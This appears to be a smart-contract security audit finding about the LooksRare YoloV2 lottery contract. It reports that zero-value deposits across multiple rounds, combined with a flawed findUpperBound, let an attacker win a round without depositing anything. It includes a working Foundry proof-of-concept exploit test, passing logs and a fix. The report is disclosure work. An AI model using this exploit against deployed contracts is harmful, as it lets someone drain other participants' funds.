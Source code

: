 Steep Orange Buffalo

high

# Attackers can deposit nothing to win round

## Summary
The ````depositETHIntoMultipleRounds()```` and ````findUpperBound()```` are not well implemented, attacks can exploit them to win round with zero deposits.

## Vulnerability Detail
1. Attackers can call  ````depositETHIntoMultipleRounds()```` with parameters like this ````[0.01 ether, 0, 0, 0, 0]```` to deposit for round [1, 2, 3, 4, 5] respectively.
```solidity
File: contracts\YoloV2.sol
312:     function depositETHIntoMultipleRounds(uint256[] calldata amounts) external payable nonReentrant whenNotPaused {
313:         uint256 numberOfRounds = amounts.length;
314:         if (msg.value == 0 || numberOfRounds == 0) {
315:             revert ZeroDeposits();
316:         }
317: 
318:         uint256 startingRoundId = roundsCount;
319:         Round storage startingRound = rounds[startingRoundId];
320:         _validateRoundIsOpen(startingRound);
321: 
322:         _setCutoffTimeIfNotSet(startingRound);
323: 
324:         uint256 expectedValue;
325:         uint256[] memory entriesCounts = new uint256[](numberOfRounds);
326: 
327:         for (uint256 i; i < numberOfRounds; ++i) {
328:             uint256 roundId = _unsafeAdd(startingRoundId, i);
329:             Round storage round = rounds[roundId];
330:             uint256 roundValuePerEntry = round.valuePerEntry;
331:             if (roundValuePerEntry == 0) {
332:                 (, , roundValuePerEntry) = _writeDataToRound({roundId: roundId, roundValue: 0});
333:             }
334: 
335:             _incrementUserDepositCount(roundId, round);
336: 
337:             uint256 depositAmount = amounts[i];
338:             if (depositAmount % roundValuePerEntry != 0) {
339:                 revert InvalidValue();
340:             }
341:             uint256 entriesCount = _depositETH(round, roundId, roundValuePerEntry, depositAmount);
342:             expectedValue += depositAmount;
343: 
344:             entriesCounts[i] = entriesCount;
345:         }
346: 
347:         if (expectedValue != msg.value) {
348:             revert InvalidValue();
349:         }
350: 
351:         emit MultipleRoundsDeposited(msg.sender, startingRoundId, amounts, entriesCounts);
352: 
353:         if (
354:             _shouldDrawWinner(
355:                 startingRound.numberOfParticipants,
356:                 startingRound.maximumNumberOfParticipants,
357:                 startingRound.deposits.length
358:             )
359:         ) {
360:             _drawWinner(startingRound, startingRoundId);
361:         }
362:     }

```

2. The ````findUpperBound()```` also doesn't work while arrays contain equal elements, e.g. calling with
```solidity
findUpperBound([2,2,2,2], 2)
```
should return ````0````, but actually return ````3````.
![img](https://c2n.me/4kbR2IP.png)

3. The full coded PoC:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {IERC20} from "@looksrare/contracts-libs/contracts/interfaces/generic/IERC20.sol";
import {IERC721} from "@looksrare/contracts-libs/contracts/interfaces/generic/IERC721.sol";

import {VRFConsumerBaseV2} from "@chainlink/contracts/src/v0.8/VRFConsumerBaseV2.sol";

import {YoloV2} from "../../contracts/YoloV2.sol";
import {IYoloV2} from "../../contracts/interfaces/IYoloV2.sol";
import {TestHelpers} from "./TestHelpers.sol";

contract Yolo_Bug_Test is TestHelpers {
    function setUp() public {
        _forkMainnet();
        _deployYolo();
        _subscribeYoloToVRF();

        vm.deal(user1, 1 ether);
        vm.deal(user2, 1 ether);
        vm.deal(user3, 1 ether);
    }

    function test_WinWithZeroDeposits() public {
        uint256[] memory amounts = new uint256[](2);

        amounts[0] = 0.01 ether;
        amounts[1] = 0.01 ether;
        vm.prank(user1);
        yolo.depositETHIntoMultipleRounds{value: 0.02 ether}(amounts);

        amounts[0] = 0.01 ether;
        amounts[1] = 0 ether; // deposit nothing to round 2
        vm.prank(user2);
        yolo.depositETHIntoMultipleRounds{value: 0.01 ether}(amounts);

        amounts[0] = 0.01 ether;
        amounts[1] = 0 ether; // deposit nothing to round 2
        vm.prank(user3);
        yolo.depositETHIntoMultipleRounds{value: 0.01 ether}(amounts);


        (, , , uint40 cutoffTime, , , , , ,) = yolo.getRound(1);
        vm.warp(cutoffTime);
        yolo.drawWinner();

        uint256[] memory randomWords = new uint256[](1);
        randomWords[0] = 111;
        vm.prank(VRF_COORDINATOR);
        VRFConsumerBaseV2(yolo).rawFulfillRandomWords(FULFILL_RANDOM_WORDS_REQUEST_ID, randomWords);

        (, , , cutoffTime, , , , , ,) = yolo.getRound(2);
        vm.warp(cutoffTime);
        yolo.drawWinner();
        vm.prank(VRF_COORDINATOR);
        VRFConsumerBaseV2(yolo).rawFulfillRandomWords(FULFILL_RANDOM_WORDS_REQUEST_ID_2, randomWords);

        // user3 deposits nothing to round 2, but finally win the round
        (, , , , , , address winner, , , ) = yolo.getRound(2);
        assertEq(user3, winner);
    }
}

```

4. And test logs:
```solidity
2024-01-looksrare-ydspa\contracts-yolo> forge test --match-contract Yolo_Bug_Test -vv
[⠑] Compiling...
[⠒] Compiling 106 files with 0.8.23
[⠃] Solc 0.8.23 finished in 456.75sCompiler run successful with warnings:
[⠊] Solc 0.8.23 finished in 456.75s

Running 1 test for test/foundry/Yolo.Bug.t.sol:Yolo_Bug_Test
[PASS] test_WinWithZeroDeposits() (gas: 869626)
Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 1.18s

Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

## Impact
Attackers could drain significant fund from the protocol with extreme low cost.

## Code Snippet
https://github.com/sherlock-audit/2024-01-looksrare/blob/7d76b96a58a6aee38f23bb38b8a5daa3bdc03f7c/contracts-yolo/contracts/YoloV2.sol#L312


## Tool used

Manual Review

## Recommendation
(1) zero deposits should be rejected in ````depositETHIntoMultipleRounds()````
(2) ensure ````findUpperBound()```` to return the first qualified element.
